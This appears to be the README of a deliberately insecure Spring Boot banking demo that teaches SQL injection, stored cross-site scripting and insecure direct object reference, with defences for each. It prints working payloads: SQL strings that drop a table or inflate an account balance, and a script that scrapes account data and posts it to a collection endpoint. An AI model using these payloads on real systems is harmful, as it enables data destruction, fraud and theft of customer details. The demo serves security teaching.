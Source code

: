 # Common Security Vulnerability Demo

The purpose of this application is to illustrate some common security vulnerabilities in web applications. Understanding how these exploits work is critical in being able to defend against them. 

## Application Setup

This application runs in two different modes: 
* Secure - proper protections and being used to mitigate the attacks
* Insecure - the application is exposed to attacks

To run it in either mode, use the spring profile field when starting the app as follows

`mvn spring-boot:run -Dspring.profiles.active=insecure`

Currently, the application illustrates the following vulnerabilities
* SQL Injection
* Stored Cross-site scripting (XSS)

## SQL Injection

To exploit this vulnerability, log in as a customer and inject SQL into the first name field as follows

`'; SQL Here; --`

For example:

`' DROP TABLE customer; --`

`' UPDATE bank_account SET balance=999999999 WHERE customer_id=1; --

Defending against this vulnerability can be done at multiple levels
* ORM
* Input validation

## Cross-site scripting

To exploit this vulnerability, log in as a customer and inject the following javascript into the first name field as follows

`<script type="text/javascript">$(document).ready(function(){var accountInfo="";$("table").children("tbody").children("tr").each(function(){$(this).children("td").each(function(){accountInfo=accountInfo+";"+$(this).text();});});$.post("http://localhost:8080/receive-hack", {accountInfo:accountInfo});});alert("hacked");</script>`

This attack will allow a malicious user to inject a script into the database that then will run on the employee level and expose customer details to an external web server controlled by the malicious user. In this case, it is simply the same app server as is running, but this would be different in a real attack.

Defending against this vulnerability can be done at multiple levels
* Validating user input 
* Encoding dynamic output on web pages

## Insecure Direct Object Reference

To exploit this vulnerability, log in as a customer and type in the following url which will allow you to access sensitive employee-only information directly.

`/sensitive`

This attack allows users to access information that they should not be authorized to access. 

Defending against this vulnerability can be done through multiple authorization mechanisms
* URL-level protection
* Method-level security with role-based access configuration
* Method pre-authorization configuration

